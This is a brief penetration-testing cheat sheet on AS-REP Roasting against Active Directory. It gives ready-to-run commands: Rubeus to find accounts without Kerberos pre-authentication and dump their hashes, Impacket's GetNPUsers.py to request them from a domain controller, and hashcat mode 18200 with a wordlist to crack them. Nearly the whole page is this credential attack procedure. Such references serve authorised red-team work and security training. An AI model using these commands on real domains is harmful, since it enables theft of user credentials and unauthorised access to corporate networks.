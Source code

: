 # AS-REP Roasting

#### AS-REP Roasting

> **AS-REP Roasting** dumps the `krbasrep5` hashes of user accounts that have Kerberos pre-authentication disabled.

* **Rubeus** (local => automatically find as-rep roastable users):

```powershell
.\Rubeus.exe asreproast
```

* **Impacket** (remote => requires to enumerate as-rep roastable users with `BloodHound` for instance):

```bash
GetNPUsers.py <Domain>/[username] -dc-ip <IP> -request  [-no-pass -usersfile users.txt]
```

* Cracking Kerberos 5 AS-REP etype 23 _(sometimes need to add `$23` after `$krb5asrep`)_:

```bash
hashcat -m 18200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```
